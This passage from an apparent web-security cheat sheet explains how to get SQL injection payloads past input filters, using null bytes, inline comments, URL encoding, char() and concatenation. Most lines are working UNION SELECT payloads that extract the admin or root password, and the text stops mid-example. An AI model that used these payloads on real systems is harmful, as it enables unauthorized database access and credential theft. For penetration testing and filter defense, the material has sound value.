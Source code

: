 ```sql
or
'a'=
        'a'
```

#### Null Bytes

Use null byte (%00) before any characters that the filter is blocking.

For example, if the attacker may inject the following SQL

`' UNION SELECT password FROM Users WHERE username='admin'--`

to add Null Bytes will be

`%00' UNION SELECT password FROM Users WHERE username='admin'--`

#### SQL Comments

Adding SQL inline comments can also help the SQL statement to be valid and bypass the SQL injection filter. Take this SQL injection as an example.

`' UNION SELECT password FROM Users WHERE name='admin'--`

Adding SQL inline comments will be:

`'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/'admin'--`

`'/**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE/**/'admin'--`

#### URL Encoding

Use the [online URL encoding](https://meyerweb.com/eric/tools/dencoder/) to encode the SQL statement

`' UNION SELECT password FROM Users WHERE name='admin'--`

The URL encoding of the SQL injection statement will be

`%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--`

#### Character Encoding

Char() function can be used to replace English char. For example, char(114,111,111,116) means root

`' UNION SELECT password FROM Users WHERE name='root'--`

To apply the Char(), the SQL injection statement will be

`' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--`

#### String Concatenation

Concatenation breaks up SQL keywords and evades filters. Concatenation syntax varies based on the database engine. Take the MS SQL engine as an example

`select 1`

The simple SQL statement can be changed as below by using concatenation
